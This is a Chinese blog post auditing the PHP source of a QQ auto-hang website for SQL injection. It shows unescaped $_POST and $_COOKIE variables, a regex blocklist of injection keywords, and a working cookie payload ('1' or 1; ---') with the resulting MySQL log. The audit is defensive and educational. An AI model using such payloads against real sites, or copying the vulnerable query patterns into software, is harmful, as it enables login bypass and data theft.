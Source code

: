 ```yaml
---
title: 'PHP - 简单代码审计'
date: 2018-07-18 12:34:05
tags:
    - 'code audit'
    - 'PHP'
    - Web
    - '网络安全'
categories:
    - '技术分享'
---
```


翻网盘的时候翻到了一堆 `代挂网站源码` ，大概是以前和别人合作的时候别人给的参考网站，现在对其中部分代码进行一次简单的代码审计，本次主要审计外部变量造成的SQL注入，运行环境版本为 `PHP5`，程序代码给出下载：

![天高云淡V2免授权版1.20.7z](simple-code-audit/天高云淡V2免授权版1.20.7z)

## PHP的外部变量

| 变量名 | 说明 |
|-------|------|
| $_SERVER | 记录服务器信息 |
| $_POST | 记录请求表单 |
| $_GET | 记录请求GET参数|
| $_COOKIE | 记录请求的Cookies|

## 代码审计 

一般来说，对于源代码中的外部变量遵循一个铁则：

> 永远不要相信用户的输入

本次利用 `NotePad++` 对代码进行搜索并分析上下文来确定是否包含SQL注入。

*搜索变量*

![](simple-code-audit/1.png)

## 审计过程

一般来说，比较简单的PHP网站，一个PHP文件一个页面，没有使用框架，就基本上不会对外部变量进行过滤，从代码来看，代码的作者至少有3位：

**转义函数**

```php
function safestr($str){
	if(!get_magic_quotes_gpc()){
		return addslashes($str);
	}else{
		return $str;
	}
}
```

### 说明

`addslashes`() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 `addslashes`()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

可以看到这里对输入的字符串进行一次过滤，使用的地方如：

> /find.php:1~6
```php
<?php
require_once('includes/common.php');
if($_POST['do']=='find'){
	session_start();
	$user=safestr($_POST['user']);
	$aqanswer=safestr($_POST['aqanswer']);
```

但是也有未使用的地方（此管理目录，虽然有注入点，但是需要管理员权限才可运行）：

> /admin/addfz.php:13~15
```php
$d_qq = $_POST['d_qq'];
$d_user_name = $_POST['d_user_name'];
$d_user_pwd = $_POST['d_user_pwd'];
```

**安全检测**

此份代码里包含了安全检测部分，检测输入变量是否包含恶意字符：

> /includes/360_safe3.php

*部分代码*

```php
...
$getfilter="'|(and|or)\\b.+?(>|<|=|in|like)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$postfilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$cookiefilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
...
foreach($_GET as $key=>$value){ 
	StopAttack($key,$value,$getfilter);
}
foreach($_POST as $key=>$value){ 
	StopAttack($key,$value,$postfilter);
}
foreach($_COOKIE as $key=>$value){ 
	StopAttack($key,$value,$cookiefilter);
}
```

## 审计结果

从代码静态审计来看，注入点比较多，例如：

> /mgmt/qd.php:17 注入参数： POST:uin
```php
$qq=$_POST['uin'];
...
if (!$qqrow=$db->get_row("select * from {$prefix}qqs where qq='$qq' and uid='$userrow[uid]' limit 1")) {
```

### 可用注入

>/includes/common.php:77 注入参数：COOKIE:tgyd_sid **可用**
```php

$cookiesid = $_COOKIE['tgyd_sid'];

if ($cookiesid && $userrow = $db->get_row("select * from {$prefix}users where sid ='$cookiesid' limit 1")) {

    C('loginuser', $userrow['user']);

    C('loginuid', $userrow['uid']);

} 
```

### POST 实列

```
GET http://qq.atd3.org/includes/common.php HTTP/1.1
Host: qq.atd3.org
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:tgyd_sid=1' or 1%3B --- 
X-Forwarded-For: 222.222.112.1

```

### 注入日志

```
180718 12:32:12	   16 Connect	root@localhost on 
		   16 Init DB	qq_tgyd
		   16 Query	set names utf8
		   16 Query	select * from tgyd_separate where urls='qq.atd3.org' limit 1
		   16 Query	select * from tgyd_webconfigs
		   16 Query	select * from tgyd_users where sid ='1' or 1; ---' limit 1
		   16 Quit	
```